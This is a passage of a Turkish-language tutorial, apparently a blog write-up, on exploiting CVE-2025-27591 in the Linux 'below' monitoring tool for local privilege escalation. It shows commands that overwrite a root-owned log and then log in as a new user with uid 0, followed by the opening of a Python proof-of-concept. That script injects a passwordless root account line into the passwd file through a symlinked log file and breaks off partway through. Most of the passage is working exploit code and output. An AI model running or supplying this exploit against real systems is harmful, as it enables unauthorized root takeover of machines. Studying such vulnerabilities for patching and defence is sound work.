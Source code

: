 Şimdi oluşturduğumuz dosyayı **below** aracını kullanarak **error_root.log** dosyasına yazacağız:

```console
jacob@censored:~$ cp /tmp/below /var/log/below/error_root.log
```

Son olarak ise oluşturduğumuz kullanıcıyla sisteme giriş yapabiliriz:

```console
jacob@censored:~$ su - b1lal
b1lal@censored:~# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>

Zafiyetin sömürü aşaması bu şekildedir ancak bu işlemleri de otomatikleştirmek için bazı **PoC** kodları mevcuttur. Bunlardan bir tanesi bu Github Reposudur :  <a href="https://github.com/BridgerAlderson/CVE-2025-27591-PoC" target="_blank">CVE-2025-27591-PoC</a>


```python
#!/usr/bin/env python3
import os
import subprocess
import sys
import pty

BINARY = "/usr/bin/below"
LOG_DIR = "/var/log/below"
TARGET_LOG = f"{LOG_DIR}/error_root.log"
TMP_PAYLOAD = "/tmp/attacker"

MALICIOUS_PASSWD_LINE = "attacker::0:0:attacker:/root:/bin/bash\n"

def check_world_writable(path):
    st = os.stat(path)
    return bool(st.st_mode & 0o002)

def is_symlink(path):
    return os.path.islink(path)

def run_cmd(cmd, show_output=True):
    if show_output:
        print(f"[+] Running: {cmd}")
    try:
        return subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT, text=True)
    except subprocess.CalledProcessError as e:
        if show_output:
            print(f"[-] Command failed: {e.output}")
        return None

def check_vulnerability():
    print("[*] Checking for CVE-2025-27591 vulnerability...")

    if not os.path.exists(LOG_DIR):
        print(f"[-] Log directory {LOG_DIR} does not exist.")
        return False

    if not check_world_writable(LOG_DIR):
        print(f"[-] {LOG_DIR} is not world-writable.")
        return False
    print(f"[+] {LOG_DIR} is world-writable.")

    if os.path.exists(TARGET_LOG):
        if is_symlink(TARGET_LOG):
            print(f"[+] {TARGET_LOG} is already a symlink. Looks exploitable.")
            return True
```